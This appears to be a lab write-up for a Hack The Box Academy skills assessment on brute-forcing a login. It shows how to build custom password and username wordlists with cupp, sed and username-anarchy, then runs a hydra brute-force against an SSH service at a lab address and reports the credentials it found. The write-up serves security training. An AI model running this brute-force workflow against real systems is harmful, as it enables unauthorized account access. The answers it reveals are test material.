 # Brute Force Skills Assessment Service Login  

[Skills Assessment Service Login](https://academy.hackthebox.com/module/57/section/516)  

>Previous Target user: `Harry Potter`
>Target: `94.237.49.11:30154` - Server: `SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.1`   

>As you now have the name of an employee from the previous skills assessment question, 
>try to gather basic information about them, and generate a custom password wordlist that meets the password policy. 
>Also use 'usernameGenerator' to generate potential usernames for the employee. 
>Finally, try to brute force the SSH server shown above to get the flag.  

>OSINT about Harry Potter : [Harry Potter - Wikipedia](https://en.wikipedia.org/wiki/Harry_Potter_character)  

```
cupp -i
```  

![skills-assessment-service-login-cupp](/images/skills-assessment-service-login-cupp.png)  

>Based on the company securoty password policy we need to Cleanup the password wordlist `harry.txt`  

```
sed -ri '/^.{,7}$/d' harry.txt
sed -ri '/[!-/:-@\[-`\{-~]+/!d' harry.txt
sed -ri '/[0-9]+/!d' harry.txt
```  

>With username Generator,  Create [custom username wordlist](https://academy.hackthebox.com/module/57/section/512) based on employee full names: `Harry Potter`

```
./username-anarchy Harry Potter > harry-potter-names.txt
```

>SSH Brute Force - User/Pass Wordlists [Service Authentication Brute Forcing](https://academy.hackthebox.com/module/57/section/491)  

```
hydra -L harry-potter-names.txt -P harry.txt -u -f ssh://94.237.49.11:30154 -t 4
```  







>Web application login Credentials discovered using brute force: `user:harrypotter`  
